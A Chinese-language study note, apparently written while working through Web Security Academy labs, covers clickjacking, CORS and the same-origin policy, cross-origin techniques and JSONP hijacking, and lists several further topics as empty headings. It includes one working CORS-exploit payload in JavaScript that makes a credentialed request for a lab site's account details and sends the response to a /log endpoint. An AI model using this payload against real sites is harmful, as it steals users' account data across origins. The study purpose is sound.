

# Clickjacking

html+css+js---->csrf+xss

亘古不变的道理，前面掌握的越好，后面的高度越高。

# CORS

什么是同源：https://www.ruanyifeng.com/blog/2016/04/cors.html

MDN介绍：https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CORS

一个域名地址的组成：



同源条件：

1.   当协议、子域名、主域名、端口号中任意一个不相同时，都算做不同域；
2.   不同域之间相互请求资源，就算作“跨域”，比如：http://www.example.com/index.php 请求 http://www.efg.com/service.php这里就算是跨域（源）。

同源策略的目的就是为了保证用户信息的安全，防止恶意网站窃取数据。

iframe，csrf。

==学习要点，最好去搞一个前后端分离的项目弄一弄，理解CORS的本质。==


跨域安全性：

-   cookie、localStorage、sessionStorage等存储型的内容
-   DOM节点操作；


CORS跨域方式：

-   正常方式（需要服务器，客户端支持，属于正常开发要求）；
-   SRC
    -   ``
    -   `<link href=xxx>`
    -   `<script src=xxx>`
-   JSONP
    -   跨域所利用的方式为标签的SRC;
-   postMessage
-   Location.hash
-   window.name
-   document.domain


payload：

```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','0a7c006603f0e05b8020353400bc0091.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
    location='/log?key='+this.responseText;
};
```


# JSONP劫持

JSONP（JSON with padding，填充式 JSON 或参数式 JSON），它的出现就是为了跨域获取资源而产生的一种非官方的技术手段（官方的有CORS和postMessage），它利用的是`<script>`标签的src属性不受同源策略的影响的特性。

# WebSockets

# Business logic vulnerabilities

# information disclosure

# Web cache poisoning

# HTTP Host header poisoning

# HTTP Host header attacks

# HTTP request smuggling